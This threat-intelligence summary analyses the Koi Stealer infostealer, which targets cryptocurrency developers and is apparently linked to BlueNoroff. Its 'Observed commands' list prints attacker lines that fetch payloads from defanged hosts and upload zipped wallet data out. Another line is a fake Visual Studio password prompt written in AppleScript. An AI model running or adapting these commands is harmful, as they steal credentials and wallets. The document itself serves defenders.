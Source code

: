 **Koi Stealer's main capabilities:**
*   Data collection and exfiltration in two stages
    *   Collects reconnaissance information, such as hardware UUID and user information
    *   Requests the user's root password
    *   Builds an HTTP request that exfiltrates usernames, passwords, hostnames, build information, hardware details, process lists, and installed applications
    *   Copies browser files, Filezilla files, OpenVPN profile files, Steam user and configuration files, cryptocurrency wallets, Discord users and configuration files, Telegram data files, zsh history, SSH configuration files, keychain files, notes, and Safari files
*   Uses **AppleScript** to mute the system's volume, concealing commands that copy multiple files
    *   Uses AppleScript to collect and copy specific files from the ~/Desktop and ~/Documents directories, filtered by selected extensions
*   Employs string encryption to hide its code

Both macOS and Windows variants share similar code structures, execution flows, and interests in sensitive data. They use similar string formats for C2 server communication and send memory streams of data to avoid detection.

The attackers used the RustDoor backdoor, which Sentinel One previously attributed to Alluring Pisces (aka BlueNoroff, Sapphire Sleet). The domain apple-ads-metric[.]com hosts both RustDoor and the macOS variant of Koi Stealer. The victims were software developers in the cryptocurrency industry.

Observed commands:

*   `curl -O -s hxxps://apple-ads-metric[.]com/npm`
*   `chflags hidden npm`
*   `chmod +x npm`
*   `log stream --predicate eventMessage contains "com.apple.restartInitiated" or eventMessage contains "com.apple.shutdownInitiated" --info`
*   `zsh -c zip -r [redacted].zip /Users/$USER$/Library/Application\ Support/Google/Chrome/Default/Local\ Extension\ Settings/aeblfdkhhhdcdjpifhhbdiojplfjncoa`
*   `zsh -c curl -F file=[redacted].zip hxxps://visualstudiomacupdate[.]com/tasks/upload_file`
*   `zsh -c curl -O -s hxxps://apple-ads-metric[.]com/back.sh`
*   `zsh -c curl -O -s hxxps://apple-ads-metric[.]com/sh.sh && chmod +x sh.sh`
*   `zsh -c mdfind -name .pem`
*   `sh -c tccutil reset AppleEvents`
*   `sh -c ps aux`
*   `sh -c system_profiler SPHardwareDataType`
*   `sh -c osascript<<br>display dialog "Visual Studio requires permission to install update.<br>Please enter password for [redacted]:" default answer "" with title "Visual Studio" with icon POSIX file "/Users/$USER$/vs.png" with hidden answer<br>EOD`
*   `sh -c sw_vers`
*   `set volume output muted true`
*   `set volume output muted false`

### Countries
Not mentioned in the article.

### Industries
*   Cryptocurrency

### Recommendations
Organizations should implement a proactive and multilayered approach to counter social engineering attacks. They should also invest in social engineering awareness training. Palo Alto Networks customers are advised to use Advanced WildFire, Advanced URL Filtering, Advanced DNS Security, Cortex XDR, and XSIAM.
